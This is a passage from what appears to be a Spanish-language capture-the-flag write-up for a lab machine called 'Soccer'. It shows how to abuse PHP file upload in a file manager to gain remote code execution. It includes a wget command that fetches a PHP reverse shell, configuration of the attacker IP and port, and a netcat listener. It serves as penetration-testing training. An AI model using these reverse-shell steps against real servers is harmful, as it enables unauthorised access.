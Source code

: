 ## Web Exploitation

La versión `2.4.3` nos permite subir archivos `php` y que estos sean interpretados, obteniendo así un `RCE` (Remote Code Execution). Lo primero es descargar esta `shell` de `php` [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php).

```
# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Editamos el `script` y ponemos nuestra `IP` y el `puerto` en el que vamos a estar en escucha

```
$ip = '10.10.16.28';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Nos ponemos en escucha con `netcat`

```
# nc -lvnp 1234
```

En la página web pulsamos en `tiny`

![](/assets/img/Soccer/image_5.png)

Una vez dentro pulsamos en `uploads`

![](/assets/img/Soccer/image_6.png)

Pulsamos en `Upload` y subimos nuestro archivo `.php`

![](/assets/img/Soccer/image_7.png)

Una vez subido, nos debe aparecer así; debemos hacer clic sobre el archivo `php`

![](/assets/img/Soccer/image_8.png)

Una vez estemos dentro debemos pulsar en `Open` 

![](/assets/img/Soccer/image_9.png)
